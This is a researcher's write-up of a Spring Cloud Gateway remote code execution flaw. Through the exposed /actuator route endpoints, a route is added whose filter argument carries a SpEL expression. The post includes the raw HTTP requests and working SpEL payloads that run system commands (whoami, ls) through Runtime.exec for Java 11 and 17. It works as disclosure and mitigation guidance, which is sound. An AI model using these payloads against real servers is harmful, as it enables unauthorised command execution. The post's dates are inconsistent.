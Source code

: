 ```yaml
---
layout: post
title:  "Spring Gateway Unauth RCE"
date:   2022-01-18 21:11:53 +0700
author: hoangnx99, rskvp93 (from Viettel Cyber Security)
categories: jekyll update
---
```


<i> In this blog, we will introduce our new 0-day vulnerability of Spring Cloud Gateway that we had just found out in the first of 2021. This vulnerability was reported to `VMWARE` and they had just been released the patch in the new version which released on 01/03/2021.
</i>

<b>Note: </b>
<i>Update in 01/03/2021: 
- 16/01/2021: We reported to VMware and being assigned for triage after that. 
- 16/02/2021: Ask for any update and get my first 0day <b>DUPLICATE</b>
![](/spring-gateway/duplicate.png)
- 01/03/2021: VMware release new version, duplicated guy also release the new blog about this.
![](/spring-gateway/dup-date.png)
![](/spring-gateway/my-date.png)

Seem that we reported later than him 1day. T.T
</i>

# Inspiration
The vulnerability was inspired by the blog `https://wya.pl/2021/12/20/bring-your-own-ssrf-the-gateway-actuator/` which was released on 20th December 2021. From this blog, the author ends with the SSRF by designing with the exposed `actuator` endpoint. After reading the docs of `Spring Cloud Gateway`, @rskvp93 - my mentor, comes with the idea of using `global filter` to gain the Remote Code Execution through EL Injection. 

# Detail Analysis:
## Functional Design:
![](/spring-gateway/sping_cloud_gateway_diagram.png)

As the above picture, Sping Cloud Gateway is a tool that provides out-of-the-box routing mechanisms often used in microservices applications as a way of hiding multiple services behind a single facade. To routing requests, the Spring Cloud Gateway forwards requests to `Gateway Handler Mapping` which route will be transferred to. 

Moreover, `Spring Cloud Gateway` also provides some built-in <b>`Gateway Filter`</b> which allow the modification of the incoming HTTP request or outgoing HTTP response in some manner. 

## Gateway Filter:
There is a list of public endpoint `/actuator` that can help us to construct a route with any filter. 
![](/spring-gateway/actuator-gateway-endpoints.png)

As the analysis of the above blog, we will summary some promising endpoints:
1. List all route:

```
GET /actuator/gateway/routes HTTP/1.1
Host: 192.168.137.120:9000
Connection: close


```

![List Route](/spring-gateway/list-routes.png)

2. Add a route:

```
POST /actuator/gateway/routes/test HTTP/1.1
Host: 192.168.137.120:9000
Connection: close
Content-Type: application/json
Content-Length: 334

{
  "predicates": [
    {
      "name": "Path",
      "args": {
        "_genkey_0": "/abc/**"
      }
    }
  ],
  "filters": [
    {
      "name": "AddRequestParameter",
      "args": {
        "_genkey_0": "X-Custom",
        "_genkey_1": "Test"
      }
    }
  ],
  "uri": "https://httpbin.org",
  "order": 0
}
```

![List Route](/spring-gateway/new-route.png)
3. Refresh route:
After adding a route, all the new route need a subsequent request to make the application recognize.

```
GET /actuator/gateway/routes HTTP/1.1
Host: 192.168.137.120:9000
Connection: close


```

![Refresh Route](/spring-gateway/refresh.png)

At now, a new route had added and the route can be accessed at `abc` endpoint with the new response header `X-Custom: Test ` which is added by the filter.

![Result Route](/spring-gateway/result-route.png)
 
In the previous chapter, we introduce Spring Cloud Gateway functionality, its filter, and how to construct a route through `/actuator` endpoint.  
## Digging Deeper Into Defining a Route:

After exploring the Spring Gateway filter through its docs, we were attracted to a part about using SpEL Expression to config the filter. This part of the document makes us dig into how to construct a route and find a way to do EL Injection. 
![Result Route](/spring-gateway/EL.png)

<i> Let see what happen when adding a new route ? </i>

A route after adding with `/actuator` endpoint will be a push to the routing cache. To Publish to the route, a `refresh` request must be made and all the route list arrays in the cache will be popped and converted one by one to a `Route`. We can define the `filter` and `predicate` as this example:

```
"filters": [
    {
      "name": "AddResponseHeader",  #Name of the filter
      "args": {
        "_genkey_0": "X-Custom",    #arg1: headername 
        "_genkey_1": "${abcc}"      #arg2: headervalue
      }
    }
  ]
```

![filter](/spring-gateway/filter-definition.png) 
![filter](/spring-gateway/filter.png) 

With every argument which passes into, the value will be considered which is spel expression by checking if the string starts with `#{` and ends with `}`. 
![filter](/spring-gateway/getvalue.png)
![filter](/spring-gateway/elinjection.png)

Therefore, This code is vulnerable to EL Injection and leads to RCE. There are many ways that you can exploit this vulnerability with any payload of EL Injection which can be found on the internet. However, to construct a payload that is available in as many cases as possible, we choose the payload that can reflect the command output to the response.

```
#{new java.util.Scanner(''.getClass().forName('java.lang.Runtime').getRuntime().exec('whoami').getInputStream()).useDelimiter('\\A').next().replace('\n',' ')}
```

![filter](/spring-gateway/result1.png)
![filter](/spring-gateway/result2.png)

We had tested above payload on Java 11 but in newer version (java 17), the payload for EL Injection is quite different and you can try this poc:

```
#{new java.util.Scanner(T(java.lang.Process).getMethod('getInputStream').invoke(T(java.lang.Runtime).getRuntime().exec(new String[]{'ls'}))).useDelimiter('\A').next().replace('\n',' ')}
```

# Conclusion:
To sum up, our research could leverage SSRF to RCE through EL Injection. However, this vulnerability can migrate easily by limiting the access to `/actuator` endpoint. 

# Credit:
nxhoang99 and rskvp93 from VcsLab of Viettel Cyber Security.
